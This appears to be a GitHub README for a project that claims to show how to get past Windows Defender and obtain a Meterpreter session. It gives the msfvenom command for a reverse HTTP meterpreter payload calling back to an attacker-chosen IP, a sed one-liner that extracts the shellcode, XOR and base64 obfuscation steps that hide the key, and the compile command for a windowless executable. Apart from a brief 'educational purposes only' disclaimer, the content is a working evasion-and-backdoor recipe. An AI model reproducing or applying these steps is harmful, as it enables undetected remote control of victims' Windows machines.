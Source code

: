 ## Bypassing-WindowsDefender

The aim of the project is to demonstrate that it is still possible to bypass Windows Defender to obtain a meterpreter. This project is for educational purposes only and should not be used for illegal or malicious activities.

### External library used in this project

- https://github.com/ReneNyffenegger/cpp-base64

### Creating stageless payload

```bash
msfvenom -p windows/x64/meterpreter_reverse_http LHOST=<IP> LPORT=<PORT> -f c -o main.c
```

### Copying our shellcode to the clipboard

```bash
sed -E 's/"\\/0/g;s/"$/,/g;s/\\x/, 0x/g;s/";//g;/unsigned char [A-Za-z]+\[\] =/d' main.c | xclip -sel clip
```

- Create a file called `payload.txt` in the same folder where the `tool.py` script is located and paste your shellcode there.

### Running tool.py

```powershell
python3 tool.py
```

- Copy the subtraction value and add it to main.cpp in `int subtract = [HERE];`. (This is just to avoid using the xor key directly in the code, you can remove it if you want)

- Remember that you can change the value of the `xor_value` variable in the `tool.py` code.
- The tool will create a file called `payload.b64`, which will contain your encrypted and base64-encoded shellcode that you must replace in the main.cpp.

### Compilation command

```powershell
g++.exe -m64 -o app.exe -lkernel32 -static main.cpp base64.cpp -mwindows -I . -D_WIN32_WINNT=0x0601
```

Make sure you have `base64.h` and `base64.cpp` in your project.

### Demo video

https://user-images.githubusercontent.com/89106058/237018521-ff5d43e9-b833-421f-9a83-e47385bf5a0c.mp4


